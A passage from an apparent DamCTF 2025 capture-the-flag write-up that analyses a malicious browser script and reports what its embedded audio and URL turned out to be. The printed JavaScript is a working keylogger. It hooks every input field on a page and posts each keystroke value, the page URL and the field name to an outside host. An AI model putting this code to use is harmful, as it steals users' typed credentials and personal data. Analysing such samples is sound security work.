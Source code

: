 ```js
const targetNode = document.documentElement

const config = {attributes: true, childList: true, subtree: true};

const callback = (mutationList, observer) => {
    for (const mutation of mutationList) {
        if (mutation.type === "childList" && mutation.addedNodes.length > 0) {
            mutation.addedNodes.forEach(node => {
                if (node.nodeName === "INPUT") {
                    node.addEventListener("input", (e) => {
                        boom.currentTime = 0;
                        boom.play();

                        fetch("https://mwaas.el1t3.fun/payload", {
                            method: "POST",
                            headers: {
                                "Content-Type": "application/json",
                            },
                            body: JSON.stringify({
                                value: e.target.value,
                                url: window.location.href,
                                ele: e.target.name,
                                user: "NAVI"
                            }),
                        });
                    });
                }
            });
        }
    }
};

// Create an observer instance linked to the callback function
const observer = new MutationObserver(callback);

// Start observing the target node for configured mutations
observer.observe(targetNode, config);
```

Because the content of the file is huge but when I paste the `data:audio/wav;base64,` part into in the web browser, it gives me a `WnZAQWgc.wav` file. <br>
<audio controls>
     <source src="/assets/img/dam-ctf_2025/WnZAQWgc.wav" type="audio/wav">
     Your browser does not support the audio element.
   </audio>

It's sounds like a boom sound. Nevermind, let's look some code after the base64 part. <br>
We found this url `https://mwaas.el1t3.fun/payload` in the code. <br>

![url](/assets/img/dam-ctf_2025/url.png)
